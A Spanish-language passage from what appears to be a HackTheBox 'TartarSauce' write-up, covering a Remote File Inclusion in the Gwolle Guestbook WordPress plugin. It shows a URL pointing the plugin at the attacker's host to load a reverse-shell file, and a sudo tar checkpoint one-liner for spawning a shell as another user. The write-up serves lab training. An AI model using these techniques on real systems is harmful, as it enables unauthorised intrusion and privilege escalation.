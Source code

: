 	Uno de los resultados que arroja el escaneo anterior es el plugin **Gwolle Guestbook**, un plugin para Wordpress que añade la funcionalidad de libro de visitas al sitio. Si buscamos este plugin en **searchsploit**, veremos que existe una versión de este que es vulnerable.
	
	![16]
	
	Este exploit plantea un Remote File Inclusion por culpa de la variable **abspath**, la cual no sanitiza su entrada y permite tomar de manera remota un archivo llamado **wp-load.php** de un servidor remoto (que será nuestra máquina de atacante) y lo carga en el plugin, renderizándolo y ejecutando lo que este archivo contenga. Queda claro lo que debemos hacer: Un archivo malicioso con el nombre **wp-load.php** que esté alojado en nuestra máquina por medio de un servidor HTTP básico en Python. Su contenido sería el siguiente:
	
	![17]
	
	Contempla únicamente la ejecución de **system()** con una reverse shell. Para este momento, ya tenemos el archivo servido con el servidor de Python. Como indica el exploit, debemos visitar la siguiente URL en el navegador, incluyendo al final de esta la ubicación de el archivo malicioso (RFI). Solo la ubicación general, es decir, sin la palabra **wp-load.php** ya que el mismo plugin lo añade por defecto.
	
	``http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.22/``
	
	![18]
	
	Si nos ponemos en escucha con netcat, y visitamos la URL mencionada, veremos que recibimos una conexión, ganando acceso al sistema.
	
	![19]
	
+ Después de un tratamiento de la TTY, comenzamos a enumerar el sistema en busca de, primero, la flag de usuario. Vemos un directorio dentro de **home**, que es el directorio del usuario **onuma**. Por desgracia, no podemos acceder a él. Esto nos indica que lo que debemos hacer a continuación es pivotear al usuario **onuma**. Para ello, primero listamos el **sudoers**, y nos encontramos con que podemos ejecutar **tar** como el usuario **onuma** sin necesidad de proporcionar contraseña.

	![20]
	
	Para escalar al usuario y spawnear una **bash** como el usuario **onuma** por medio de **tar**, debemos ejecutar el siguiente one liner:
	
	``sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash``

	![21]
	
	Ya como el usuario **onuma**, podremos acceder a su directorio y visualizar la flag de usuario.
	
	![22]

+ Ya llegando a este punto, lo único que resta es escalar privilegios para convertirnos en **root**, por lo que comenzamos a enumerar el sistema en busca de una ruta potencial para esto. Se enumeró lo siguiente:

	* Binarios SUID: FALSE
	* Tareas en el Crontab: FALSE
	* Contraseñas hardcodeadas en los archivos del servidor web: FALSE
	* Logs del usuario onuma: TRUE
	